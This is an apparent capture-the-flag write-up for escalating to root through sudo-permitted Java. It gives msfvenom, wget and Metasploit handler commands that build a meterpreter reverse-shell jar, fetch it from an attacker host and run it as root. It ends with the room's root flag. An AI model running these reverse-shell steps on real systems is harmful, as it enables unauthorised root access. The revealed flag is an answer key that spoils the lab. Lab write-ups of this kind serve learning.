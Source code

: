 #Attacking_machine 
1. Create a jar file with java/meterpreter/reverse_tcp shell.

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=<ATTACKING MACHIINE IP> lport=443 -f raw -o java.jar
```

2. Open a python web server.

```
python3 -m http.server 80
```

#SSH_conection 
3.  Download the file `java.jar.`

```
wget http://<ATTACKING MACHINE IP>/java.jar
```

#Attacking_machine 
4. Open a metasploit.

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LhOST <ATTACKING MACHINE>
msf6 exploit(multi/handler) > set LPORT 443   /* Same port you used with msfvenom.
msf6 exploit(multi/handler) > run
```

#SSH_conection 
5. Run the `jave.jar`.

```
sudo -u root /usr/bin/java -jar java.jar
```

You got a reverse shell on meterpreter.

![[Screenshot_2025-10-18_05-29-28.png]]

#Meterpreter
6. Get a shell on `meterpreter` and check the `id`.

```
meterpreter > shell
id
```

![[Screenshot_2025-10-18_05-41-08.png]]

You are root.

## Get the flag

#Meterpreter 
- Go to /root and see the flag.

```
cd /root
cat root.txt
```


> [!Question] What is the root flag? (root.txt)
> THM{464c29e3ffae05c2e67e6f0c5064759c}
